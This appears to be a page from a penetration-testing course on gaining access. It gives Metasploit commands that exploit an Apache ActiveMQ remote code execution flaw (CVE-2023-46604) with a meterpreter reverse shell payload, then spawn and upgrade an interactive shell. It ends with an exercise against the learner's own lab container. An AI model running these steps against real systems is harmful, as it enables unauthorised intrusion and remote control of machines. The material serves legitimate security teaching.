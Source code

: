 # Gaining access

Delivering and executing a malicious payload against the target.

- For a relatively new exploit, custom scripting is needed.
- After an exploit becomes widely known, automation PoCs are developed by the communitity and usually found on GitHub.

## Practice

[Metasploit framework](https://github.com/rapid7/metasploit-framework) is the most popular exploitation framework with a large collection of community-developed payloads and exploits.

1. Install metasploit framework

   ```bash
   curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
   chmod 755 msfinstall && \
   ./msfinstall
   ```

1. Launch the main console (answer `yes` to initialize a new db when asked).

   ```bash
   msfconsole
   ```

1. Search and use a relenvant module

   ```bash
   search activemq
   use exploit/multi/misc/apache_activemq_rce_cve_2023_46604
   ```

1. Choose target platform

   ```shell
   show targets
   set target 1
   ```

1. Choose a supported payload (meterpreter is an attack payload that provides an interactive shell from which an attacker can explore the target machine and execute code)

   ```bash
   show payloads
   set payload cmd/linux/http/x86/meterpreter/reverse_tcp
   ```

1. Configure module options

   ```shell
   show options
   set rhosts vuln
   set srvport 5555
   ```

1. Launch the exploit to gain a shell

   ```bash
   run
   ```

1. In meterpreter, use `help` to see the list of available commands. To drop into a shell, simply run:

   ```bash
   shell
   ```

1. [Upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) the shell (also check [pwncat](https://github.com/cytopia/pwncat))

   ```bash
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   ```

## Exercise 4

Perform similar steps to exploit the container you deployed in the previous exercise.
